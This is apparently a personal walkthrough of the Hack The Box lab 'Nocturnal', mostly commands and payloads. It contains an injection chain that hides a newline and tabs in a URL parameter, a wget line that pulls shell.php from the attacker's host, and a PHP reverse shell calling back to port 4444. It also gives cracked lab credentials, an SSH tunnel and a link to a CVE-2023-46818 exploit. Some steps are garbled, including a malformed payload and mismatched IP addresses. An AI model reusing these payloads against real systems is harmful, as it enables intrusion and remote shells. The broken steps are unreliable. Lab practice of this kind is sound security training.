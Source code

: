 [[HTB Labs]]
![[Pasted image 20250813015205.png]]

```
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=htb.xls' -w ~/Downloads/names.txt -H 'Cookie: PHPSESSID=2rsvo9jrv63lotfd6uoc81jpk5' -fs 2985 -mc 200 
```

![[Pasted image 20250808154308.png]]

Use **%0a **to change the line**, replace the space **with** %09**, you can command execution
```
%0Abash%09-c%09"whoami"%0A
```

```
%0Abash%09-c%09"wget%0910.10.14.37:8000/shell.php"%0A
```
- **`%0A`** → newline character (line break, often used in injections).
- **`bash`** → runs the Bash shell.
- **`%09`** → tab character (acts as a separator, similar to a space).
- **`-c`** → tells Bash to execute the following command as a string.
- **`wget`** → command-line utility to download files from the internet.
- **`10.10.16.3:8000/shell.php`** → the URL of the file to download (in this case, `shell.php` from the host `10.10.16.3` on port `8000`).
- **Final `%0A`** → another newline.
![[Pasted image 20250808163130.png]]

```
%0Abash%09-c%09php%shell.php"%0A
```

shell.php
```
<?php
$ip = '10.10.14.37'; 
$port = 4444;        
$sock = fsockopen($ip, $port);
if ($sock) {
    exec('/bin/sh -i <&3 >&3 2>&3');
}
?>
```

![[Pasted image 20250808171159.png]]

`sqlite3 noctournal_database.db`
![[Pasted image 20250808171213.png]]

![[Pasted image 20250808171726.png]]

i tried user:tobias and passwd: slowmotionapocalypse
![[Pasted image 20250808171840.png]]

a4902d780d48e97c6f00157656937ce7

![[Pasted image 20250808172620.png]]

now to get that port 8080 do
```
ssh tobias@10.10.14.37 -L 9090:127.0.0.1:8080
```

After logging in now we need to access there does it host
typing the command "cd /var/www" to navigate there also we can open that port 8080 to our browser
![[Pasted image 20250808174518.png]]
now lets open that in our browser
![[Pasted image 20250808174254.png]]trying to do tobias and the opassword nothing words
but upon inspecting where is a version.
![[Pasted image 20250808174659.png]]

https://github.com/ajdumanhug/CVE-2023-46818/blob/main/CVE-2023-46818.py
![[Pasted image 20250808175126.png]]![[Pasted image 20250808175138.png]]

